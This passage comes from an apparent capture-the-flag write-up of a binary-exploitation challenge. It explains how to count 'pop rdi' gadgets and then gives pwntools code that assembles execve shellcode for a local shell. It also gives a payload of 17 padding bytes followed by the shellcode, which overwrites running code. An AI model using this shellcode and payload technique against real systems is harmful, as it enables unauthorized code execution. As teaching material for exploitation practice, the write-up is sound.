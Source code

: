 By counting, we know we need 10 `pop rdi` to be able to executing read. Change from 1 to 10 and attach again to check register after 10 `pop rdi`:

![check-register-pop-rdi-10.png](images/check-register-pop-rdi-10.png)

So we can execute `read()` now. Let's move on!

### Stage 2: Modify shellcode

Just a simple shellcode to get shell:

```python
shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdx, 29400045130965551
    push 0
    push rdx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ''', arch='amd64')
```

But we will need to pad few instructions to land on the next instruction after `syscall` is being executed. The instruction `mov esi, 0xfac300` takes 5 bytes and `syscall` takes 2 bytes, `pop rdi` takes 1 byte so with 10 `pop rdi`, we will need to pad total of 17 bytes. Payload to overwrite shellcode is:

```python
input("Press ENTER to continue...")
p.send(b'A'*17 + shellcode)
```

Attach with gdb and we can see after we press ENTER, our shellcode changed from:

![before-overwrite.png](images/before-overwrite.png)
